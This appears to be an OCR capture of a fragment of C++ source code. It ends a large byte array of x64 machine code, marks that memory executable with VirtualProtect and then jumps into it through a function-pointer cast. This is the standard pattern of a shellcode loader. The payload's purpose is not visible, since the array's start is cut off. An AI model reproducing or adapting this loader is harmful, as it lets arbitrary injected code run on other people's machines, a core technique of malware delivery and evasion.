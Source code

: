 ```cpp
    0xB0, 0xFF, 0xD2, 0x48, 0x8D, 0x55, 0xC0, 0x48, 0x8B, 0xC8, 0xFF, 0xD3, 0x45, 0x33, 0xC9, 0x45,
    0x33, 0xC0, 0x33, 0xD2, 0x33, 0xC9, 0xFF, 0xD0, 0x33, 0xC0, 0x48, 0x83, 0xC4, 0x78, 0x41, 0x5F,
    0x41, 0x5E, 0x41, 0x5D, 0x41, 0x5C, 0x5F, 0x5E, 0x5B, 0x5D, 0xC3, 0xCC, 0x44, 0x8A, 0x01, 0x33,
    0xC0, 0x4C, 0x8B, 0xDA, 0x44, 0x8B, 0xD0, 0x45, 0x84, 0xC0, 0x74, 0x0E, 0x4C, 0x8B, 0xC9, 0x49,
    0xFF, 0xC1, 0x41, 0xFF, 0xC2, 0x41, 0x38, 0x01, 0x75, 0xF5, 0x44, 0x8B, 0xC8, 0xEB, 0x06, 0x41,
    0xFF, 0xC1, 0x48, 0xFF, 0xC2, 0x38, 0x02, 0x75, 0xF6, 0x45, 0x3B, 0xD1, 0x75, 0x23, 0x8B, 0xD0,
    0x45, 0x84, 0xC0, 0x74, 0x16, 0x4C, 0x2B, 0xD9, 0x46, 0x3A, 0x04, 0x19, 0x75, 0x0D, 0x48, 0xFF,
    0xC1, 0xFF, 0xC2, 0x44, 0x8A, 0x01, 0x45, 0x84, 0xC0, 0x75, 0xED, 0x41, 0x3B, 0xD2, 0x0F, 0x94,
    0xC0, 0xC3, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00
    };

    DWORD old;
    VirtualProtect(data, sizeof(data), PAGE_EXECUTE_READWRITE, &old);
    void* t = reinterpret_cast<void*>(data);
    ((void(*)())  t)();
}
```